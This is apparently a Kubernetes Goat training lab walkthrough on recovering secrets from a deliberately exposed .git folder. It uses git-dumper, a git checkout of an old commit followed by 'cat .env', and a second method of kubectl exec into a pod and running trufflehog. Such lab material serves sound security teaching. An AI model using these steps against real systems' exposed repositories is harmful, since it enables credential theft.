 # Sensitive keys in codebases

## Scenario Information

Developers tend to commit sensitive information to version control systems. As we are moving towards CI/CD and GitOps systems, we tend to forgot to identify sensitive information in code and commits. Let's see if we can find something cool here!

* To get started with the scenario, navigate to [http://127.0.0.1:1230](http://127.0.0.1:1230)

![Scenario 1 Entry](images/sc-1-1.png)

## Scenario Solution

### Method 1

After reading the scenario description and application information. We have performed some discovery and analysis, then identified that it has `.git` folder exposed within the application.

![Scenario 1 Git folder found](images/sc-1-2.png)

* Clone the git repository locally by running the following command. Ensure you have set up [git-dumper](https://github.com/arthaud/git-dumper) locally before running the below command

```bash
python3 git-dumper.py http://localhost:1230/.git k8s-goat-git
```

![Scenario 1 git-dumper clone locally](images/sc-1-3.png)

* Now check the git log information

```bash
cd k8s-goat-git
git log
```

![Scenario 1 Git log history](images/sc-1-4.png)

* Checkout an old commit for a specific version

```bash
git checkout 128029d89797957957b2a7198d8d159b239b34eb
ls -la
cat .env
```

![Scenario 1 Gain access to flag](images/sc-1-5.png)
![Scenario 1 Gain access to flag](images/sc-1-6.png)
![Scenario 1 Gain access to flag](images/sc-1-7.png)

### Method 2

Sometimes, we ideally have access to the pods or containers access and we can also perform analysis from within the container as well.

```bash
export POD_NAME=$(kubectl get pods --namespace default -l "app=build-code" -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $POD_NAME -- sh
```

![Scenario 1 access to pod](images/sc-1_1.png)

* Then we can perform analysis on `.git` folder by running utilities like trufflehog

```bash
trufflehog .
```

![Scenario 1 trufflehog discovery](image/../images/sc-1_2.png)

## Miscellaneous

TBD

